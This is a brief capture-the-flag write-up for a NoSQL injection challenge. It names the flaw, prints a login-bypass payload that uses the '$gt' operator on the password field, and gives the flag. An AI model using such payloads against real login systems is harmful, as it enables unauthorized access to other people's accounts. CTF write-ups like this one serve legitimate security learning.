 # nosqlforyou | GamingChair

- Description: My friend created an admin account for me but he didnt give me the creds yet... can you help me?

remote:http://167.99.154.216:42067/

# Write up

The vulnerability here is nosqli. Change payload by editing request in burp. One of the possible payloads {"username":"admin","password":{"$gt":""}}

# Flag - n00bz{n0sq1i_i5_1nt3re5t1ng}